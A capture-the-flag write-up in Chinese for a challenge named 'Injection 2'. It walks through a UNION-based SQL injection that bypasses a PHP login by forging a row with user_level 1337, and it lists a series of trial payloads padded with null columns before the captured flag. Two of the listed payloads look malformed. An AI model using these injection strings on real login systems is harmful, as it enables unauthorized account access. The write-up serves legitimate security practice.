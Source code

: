 # Injection 2
給你php原始碼，要你使用injection登入，hint說：創造一個假的query結果，於是想到UNION。要拿到flag的關鍵語句：
 1. SELECT返回結果只能有1個才能進入給flag的程式碼
 2. 表格user的attribute: user_level要>=1337
於是, 使用：
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level#
 * password = 123
登入，可是登入失敗，原因是UNION後面加的SELECT和前面的SELECT的column沒對到，可能是數目不對或是順序不對，試試加一個column：
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level, null#
全失敗，加兩個column：
 * username = hehe' UNION SELECT　null, null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level, null#
 * username = hehe' UNION SELECT, 'hehe' as username, null, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT, 'hehe' as username, null, '123' as password, null, 1337 as user_level#
成功！！flag = flag_nJZAKGWYt7YfzmTsCV